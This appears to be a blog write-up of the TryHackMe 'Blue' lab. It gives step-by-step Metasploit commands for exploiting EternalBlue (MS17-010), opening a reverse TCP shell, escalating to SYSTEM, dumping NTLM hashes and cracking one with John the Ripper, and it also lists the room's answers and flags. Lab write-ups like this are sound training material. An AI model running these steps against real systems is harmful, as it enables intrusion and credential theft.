 ```yaml
---
layout: default
title: Blue
---
```

[← Back to the Home page]({{ site.baseurl }}/)
"Blue" is an entry-level TryHackMe room, designed to introduce users to basic Windows exploitation techniques. The main objective is to gain root access by exploiting a known vulnerability in the **SMB (Server Message Block)** protocol. Specifically, the target machine is vulnerable to [EternalBlue](https://it.wikipedia.org/wiki/EternalBlue) ([CVE-2017-0144](https://nvd.nist.gov/vuln/detail/CVE-2017-0144)), a critical flaw in Microsoft’s SMBv1 implementation.

EternalBlue was originally developed by the NSA and later leaked by the Shadow Brokers in 2017. It has since been widely used in various attacks, including the WannaCry ransomware outbreak. In this room, you'll scan the target for open ports and services, identify the SMB vulnerability, and use a Metasploit module or custom exploit to gain remote code execution. Once access is achieved, the final goal is to escalate privileges and capture the root flag.

This machine can be downloaded from [this page](https://darkstar7471.com/resources.html).

### Table of contents:
- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)

---

## Recon
To get through this section you'll need to install [nmap](https://nmap.org/) or use nmap inside of [Metasploit](https://www.metasploit.com/) (which you will need later).

1.  How many ports are open with a port number under 1000?
2.  What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

We can answer these questions with just one nmap scan:

`nmap --script vuln [target_IP]`
This will return all open ports (9 in total, 3 under port 1000) and all known vulnerabilities (including the EternalBlue exploit, or ms17-010).
![nmap]({{ site.baseurl }}/tryhackme/images/blue/ports.png)

## Gain Access
To get through this section you'll need to install the Metasploit framework. Then:

Become root: `sudo su`

Open up Metasploit: `msfconsole`

Set your local IP address as LHOST and LPORT to a random port that is not already in use:

`set LHOST tun0`
`set LPORT 4444`
Search Metasploit's database for the EternalBlue exploit: `search ms17-010`

![ms17-010](\images\blue\ms17-010.png)

Use the exploit: `use exploit/windows/smb/ms17_010_eternalblue`

Show the options for the exploit: `show options`. You'll get "RHOSTS" as the first result.

![options](\\images\blue\options.png)

Now set RHOSTS as the target machine's IP address: `set RHOSTS` [target_IP]

Set the payload: `set payload windows/x64/shell/reverse_tcp`

Run the exploit: `run`

## Escalate
Background the session with Ctrl+z (then press `y` when prompted).

Let's now search the Metasploit database for info on how to convert a shell to a Meterpreter shell:
`search shell_to_meterpreter`

This way we will get the answer: `post/multi/manage/shell_to_meterpreter`.

![shell](\images\blue\shell.png)

Use this post module with use 0 and show its' options with show options.

![session](\images\blue\session.png)

Since we have two sessions going on, we will have to change the SESSION option to 1 with `set SESSION 1`. To know to which session you have to switch, use the command `sessions -l`.

![sessions](\images\blue\sessions.png)

Now run the exploit with `run`.
Once we get the [*] Stopping exploit/multi/handler message, press Ctrl+c to stop that payload and select the session you just created with `sessions -i 2` or whatever number your session is (look for it with `sessions -l`).

![session2](\images\blue\session2.png)

![meterpreter](\images\blue\meterpreter.png)

The getsystem command will now return this:

![system](\images\blue\system.png)

You can also list all the processes with the ps command and you can migrate to one of these.

![ps](\images\blue\ps.png)

Find a process that runs at NT AUTHORITY\SYSTEM and copy its' PID.
Now migrate to it with `migrate [PID]` (e.g., `migrate 2868`).

Cracking
Now use the `hashdump` command.

![hashdump](\images\blue\hashdump.png)

Jon is the non-default user. Copy the NTLM digest.
Then we'll copy the digest to a file with:

`echo Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: > hash.txt`
We'll run John The Ripper on the file with:
`john --format=nt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`

This will return alqfna22 as the password.
![john](\images\blue\john.png)

Find flags!
The first flag is located in the C:\ folder:

> flag{access_the_machine}

The second flag is located in the C:\Windows\System32\config folder:

> flag{sam_database_elevated_access}

The third one is in C:\Users\Jon\Documents:

> flag{admin_documents_can_be_valuable}

That's all, hope I helped.

